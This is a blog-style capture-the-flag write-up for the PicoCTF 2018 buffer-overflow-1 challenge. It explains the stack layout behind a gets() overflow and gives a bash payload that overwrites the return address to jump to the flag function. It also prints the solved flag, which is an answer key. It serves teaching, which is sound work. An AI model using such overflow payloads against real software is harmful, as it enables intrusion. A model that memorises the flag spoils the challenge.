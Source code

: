 ```yaml
---
layout: article
title: "Buffer Overflows: PicoCTF2018-BufferOverflow-1" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, C, Exploitation, Writeup, Buffer Overflows]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/writeup-pico18-bufferoverflow-1/pico18_bof1_header.jpg
cover: /assets/images/writeup-pico18-bufferoverflow-1/pico18_bof1_cover.jpg
---
```

>I wrote this post back in late May 2019 but hadn’t published it and I don’t really remember why I didn’t. It was supposed to be a follow up for the post on the [buffer overflow basics](https://satharus.me/cybersecurity/2019/05/22/buffer_overflows_the_basics.html). 
>
> Anyway since I’ve already written it, here it is.
<!--more-->

For those that don’t know, [PicoCTF](https://picoctf.com/) is a free cybersecurity CTF game targeted at middle and high school students. It has some really nice challenges that get harder as you progress, starting out with very easy ones. I always recommend it as a good starting point for CTFs. This specific challenge is a good starting point to start learning about buffer overflows and how to exploit them.

If you don’t know what CTFs are, check out my article: [The Art of Cybersecurity (And how to get into it)](https://satharus.me/cybersecurity/2019/12/02/the_art_of_cybersecurity.html) for some starter info.

> “Okay now you’re cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln)? You can find it in /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613 on the shell server.” [Source](https://2018shell.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln.c). “

This is the description of the challenge. Since we have the source code available, it is easier to start there and then resort to disassembling the program or debugging it if necessary. By inspecting the source code of the program, we find that the input is taken via a buffer of size 32.


```c
#define BUFSIZE 32
#define FLAGSIZE 64
```

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
Enter any string and it’ll say “Okay, time to return… Fingers Crossed… Jumping to 0x80486b3”.

Note: 0x80486b3 was the address in my case. It’ll probably be different if you try to solve the challenge.

This means that it returns to that address in the program's memory. If we change that value, we can make the program return to any address by writing over it using the input.

This can be achieved using a buffer overflow exploit.

I tried entering 32 ‘a’ chars and I didn’t see any change in the address, so I kept increasing them until I found that the address starts changing after entering 44 characters.

The explanation for this is that the saved instruction pointer (before the call to `vuln()`) is located 12 bytes after the last byte in the buffer.

Checking the assembly code using ObjDump, the function we want to run: `win()`, is found at address 080485cb. Which is exactly where we want to return.

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So that means we need to enter 44 dummy characters to the input of the program, and then the address we want the program to return to.

There are no ASCII characters for `0x08 0x04 0x85 0xcb` so we need to write them as raw bytes.

Piping the output from a small BASH script into the input of the program solves this issue for us.

```sh
for a in `seq 1 44`
do
    echo -n 'a'
done

echo -e \\xcb\\x85\\x04\\x08
```

Mind that the address is entered in reverse (byte-wise) because Intel x86 is Little-Endian which means the least significant byte maps to the lowest memory address. So 0x12345678 would be stored in memory as 0x78563412.

{: style="text-align:center"}
![Output](/assets/images/writeup-pico18-bufferoverflow-1/Output.png)

And boom! We have a flag 🙂

**Flag: picoCTF{addr3ss3s_ar3_3asy3656a9b3}**

- Difficulty: Easy

- Number of points: 200

- Number of solves (as of 23/5/2019): 3065

Thanks for reading!
